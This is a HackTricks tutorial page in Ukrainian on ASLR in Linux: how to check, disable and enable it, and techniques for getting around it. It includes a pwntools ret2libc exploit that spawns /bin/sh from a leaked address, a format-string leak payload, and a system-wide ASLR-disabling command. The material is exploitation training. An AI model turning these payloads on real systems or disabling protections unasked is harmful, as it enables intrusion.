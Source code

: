 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Address Space Layout Randomization (ASLR)** - це техніка безпеки, що використовується в операційних системах для **випадкового розміщення адрес пам'яті**, які використовуються системними та прикладними процесами. Це ускладнює зловмиснику передбачити місцезнаходження конкретних процесів і даних, таких як стек, купа та бібліотеки, що зменшує ризик певних типів експлойтів, зокрема переповнень буфера.

### **Checking ASLR Status**

Щоб **перевірити** статус ASLR на системі Linux, ви можете прочитати значення з файлу `/proc/sys/kernel/randomize_va_space`. Значення, що зберігається в цьому файлі, визначає тип ASLR, що застосовується:

* **0**: Немає випадкового розміщення. Все статичне.
* **1**: Консервативне випадкове розміщення. Спільні бібліотеки, стек, mmap(), сторінка VDSO випадкові.
* **2**: Повне випадкове розміщення. На додаток до елементів, випадкових за допомогою консервативного випадкового розміщення, пам'ять, керована через `brk()`, є випадковою.

Ви можете перевірити статус ASLR за допомогою наступної команди:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Вимкнення ASLR**

Щоб **вимкнути** ASLR, потрібно встановити значення `/proc/sys/kernel/randomize_va_space` на **0**. Вимкнення ASLR зазвичай не рекомендується поза сценаріями тестування або налагодження. Ось як ви можете його вимкнути:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Ви також можете вимкнути ASLR для виконання за допомогою:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Увімкнення ASLR**

Щоб **увімкнути** ASLR, ви можете записати значення **2** у файл `/proc/sys/kernel/randomize_va_space`. Це зазвичай вимагає прав root. Увімкнення повної рандомізації можна зробити за допомогою наступної команди:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Стійкість при перезавантаженнях**

Зміни, внесені за допомогою команд `echo`, є тимчасовими і будуть скинуті при перезавантаженні. Щоб зробити зміни постійними, потрібно відредагувати файл `/etc/sysctl.conf` і додати або змінити наступний рядок:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Після редагування `/etc/sysctl.conf`, застосуйте зміни за допомогою:
```bash
sudo sysctl -p
```
Це забезпечить збереження ваших налаштувань ASLR після перезавантаження.

## **Обходи**

### 32-бітне брутфорсинг

PaX ділить адресний простір процесу на **3 групи**:

* **Код і дані** (ініціалізовані та неініціалізовані): `.text`, `.data` та `.bss` —> **16 біт** ентропії в змінній `delta_exec`. Ця змінна випадковим чином ініціалізується з кожним процесом і додається до початкових адрес.
* **Пам'ять**, виділена за допомогою `mmap()`, та **спільні бібліотеки** —> **16 біт**, названі `delta_mmap`.
* **Стек** —> **24 біти**, що називається `delta_stack`. Однак, фактично використовується **11 біт** (з 10-го до 20-го байта включно), вирівняно на **16 байт** —> Це призводить до **524,288 можливих реальних адрес стеку**.

Попередні дані стосуються 32-бітних систем, а зменшена фінальна ентропія дозволяє обійти ASLR, повторюючи виконання знову і знову, поки експлойт не завершиться успішно.

#### Ідеї для брутфорсингу:

* Якщо у вас є достатньо великий переповнення, щоб вмістити **великий NOP слайд перед shellcode**, ви можете просто брутфорсити адреси в стеку, поки потік **не стрибне через якусь частину NOP слайду**.
* Інший варіант у випадку, якщо переповнення не таке велике, і експлойт може бути запущений локально, це можливість **додати NOP слайд і shellcode в змінну середовища**.
* Якщо експлойт локальний, ви можете спробувати брутфорсити базову адресу libc (корисно для 32-бітних систем):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Якщо ви атакуєте віддалений сервер, ви можете спробувати **брутфорсити адресу функції `libc` `usleep`**, передаючи в якості аргументу 10 (наприклад). Якщо в якийсь момент **сервер відповідає на 10 секунд довше**, ви знайшли адресу цієї функції.

{% hint style="success" %}
В 64-бітних системах ентропія значно вища, і це неможливо.
{% endhint %}

### Локальна інформація (`/proc/[pid]/stat`)

Файл **`/proc/[pid]/stat`** процесу завжди доступний для читання всім і **містить цікаву** інформацію, таку як:

* **startcode** & **endcode**: Адреси вище і нижче з **TEXT** бінарного файлу
* **startstack**: Адреса початку **стеку**
* **start\_data** & **end\_data**: Адреси вище і нижче, де знаходиться **BSS**
* **kstkesp** & **kstkeip**: Поточні адреси **ESP** та **EIP**
* **arg\_start** & **arg\_end**: Адреси вище і нижче, де знаходяться **cli аргументи**.
* **env\_start** &**env\_end**: Адреси вище і нижче, де знаходяться **змінні середовища**.

Отже, якщо атакуючий знаходиться на тому ж комп'ютері, що й бінарний файл, який експлуатується, і цей бінарний файл не очікує переповнення з сирих аргументів, а з іншого **входу, який можна створити після читання цього файлу**. Атакуючий може **отримати деякі адреси з цього файлу і побудувати з них офсети для експлуатації**.

{% hint style="success" %}
Для отримання додаткової інформації про цей файл перегляньте [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html), шукаючи `/proc/pid/stat`
{% endhint %}

### Маючи leak

* **Виклик полягає в наданні leak**

Якщо вам надано leak (легкі CTF завдання), ви можете розрахувати офсети з нього (припустимо, наприклад, що ви знаєте точну версію libc, яка використовується в системі, яку ви експлуатуєте). Цей приклад експлуатації витягнуто з [**прикладу звідси**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (перевірте цю сторінку для отримання додаткових деталей):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Зловживаючи переповненням буфера, можна експлуатувати **ret2plt** для ексфільтрації адреси функції з libc. Перевірте:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Так само, як у ret2plt, якщо у вас є довільне читання через вразливість форматних рядків, можливо ексфільтрувати адресу **функції libc** з GOT. Наступний [**приклад звідси**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Ви можете знайти більше інформації про Format Strings arbitrary read у:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Спробуйте обійти ASLR, зловживаючи адресами всередині стеку:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
